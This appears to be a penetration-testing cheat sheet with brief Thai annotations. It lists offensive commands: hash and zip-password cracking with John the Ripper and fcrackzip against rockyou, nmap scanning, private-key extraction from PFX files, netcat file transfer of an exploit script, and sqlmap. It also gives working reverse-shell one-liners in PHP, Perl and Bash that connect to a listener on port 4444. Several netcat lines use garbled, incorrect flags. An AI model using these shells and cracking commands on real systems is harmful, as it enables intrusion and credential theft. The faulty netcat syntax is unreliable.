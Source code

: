 filter permission error
`find /etc/passwd 2>/dev/null` 

### Crack zip file
fcrackzip
```
fcrackzip -D -u winrm_backup.zip -p /usr/share/wordlists/rockyou.txt
```

### nmap
`nmap -Pn -sC -sV 10.10.xxx.xx`

### John the ripper
`john -wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 file-name.txt`
`john -wordlist='/usr/share/wordlists/rockyou.txt file-name.hash rule /usr/share/john/rules/rockyou-30000.rule`

### Extract Certificates and Private key
Extract the Private key from PFX
```
openssl pkcs12 -in myfile.pfx -nocerts -out priv-key.pem -nodes
```

Extract the Certificate
```
openssl pkcs12 -in myfile.pfx -nokeys -out certificate.pem 
```


Upload netcat  
Tester  
`nc -lvnp 4444 < exploit.sh ` 
  
Target  
`nc -lvnp 192.168.x.xxx[host port] > exploit.sh  `
  
Dowload  
tester  
`nc -lvnp [target port] > exploit.sh เขียนทับ`  
  
Target  
`nc -lvnp 4444 < exploit.sh ส่งออก`

  

Php reverse shell

`php -r '$sock=fsockopen("192.168.1.223",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

Perl reverse shell
```
perl -e 'use  
Socket;$i="192.168.1.223";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(conne  
ct(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S"  
);exec("/bin/sh -i");};'
```

Bash reverse shell
`bash -i >& /dev/tcp/192.168.1.119/4444 0>&1`

`wget -no-check-certificate [path-file-name] -O test.txt`
Bash -e คือเอา bash ฝั่งนั้น
Spawn shell
`python -c 'import pty;pty.spawn("/bin/bash")'`

`export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`

### Set Environment
`export TERM=xterm`  
`set | grep TERM`

### sqlmap
```
sqlmap -r req.txt --dbs --dbms mysql
```

-r use request from burp
--batch no asking user
-p parameter